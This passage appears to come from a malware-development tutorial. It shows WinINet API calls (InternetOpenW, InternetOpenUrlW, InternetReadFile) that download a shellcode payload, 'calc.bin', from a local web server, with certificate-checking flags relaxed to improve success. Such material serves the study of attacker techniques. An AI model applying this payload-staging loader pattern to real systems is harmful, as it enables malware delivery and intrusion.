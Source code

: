 ```c
HINTERNET InternetOpenW(
  [in] LPCWSTR lpszAgent,       // NULL
  [in] DWORD   dwAccessType,    // NULL or INTERNET_OPEN_TYPE_PRECONFIG
  [in] LPCWSTR lpszProxy,       // NULL
  [in] LPCWSTR lpszProxyBypass, // NULL
  [in] DWORD   dwFlags          // NULL
);
```

Calling the function is shown in the snippet below.

```c
// Opening an internet session handle
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
```

### Opening a Handle To Payload

Moving on to the next WinAPI used, [InternetOpenUrlW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw), where a connection is being established to the payloads's URL.

```c
HINTERNET InternetOpenUrlW(
  [in] HINTERNET hInternet,       // Handle opened by InternetOpenW
  [in] LPCWSTR   lpszUrl,         // The payload's URL
  [in] LPCWSTR   lpszHeaders,     // NULL
  [in] DWORD     dwHeadersLength, // NULL
  [in] DWORD     dwFlags,         // INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID
  [in] DWORD_PTR dwContext        // NULL
);
```

Calling the function is shown in the snippet below. The fifth parameter of the function uses `INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID` to achieve a higher success rate with the HTTP request in case of an error on the server side. It's possible to use additional flags such as `INTERNET_FLAG_IGNORE_CERT_CN_INVALID` but that will be left up to the reader. The flags are well explained in Microsoft's [documentation](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw).

```c
// Opening a handle to the payload's URL
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
```

### Reading Data

[InternetReadFile](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile) is the next WinAPI used which will read the payload.

```c
BOOL InternetReadFile(
  [in]  HINTERNET hFile,                  // Handle opened by InternetOpenUrlW
  [out] LPVOID    lpBuffer,               // Buffer to store the payload
  [in]  DWORD     dwNumberOfBytesToRead,  // The number of bytes to read
  [out] LPDWORD   lpdwNumberOfBytesRead   // Pointer to a variable that receives the number of bytes read
);
```
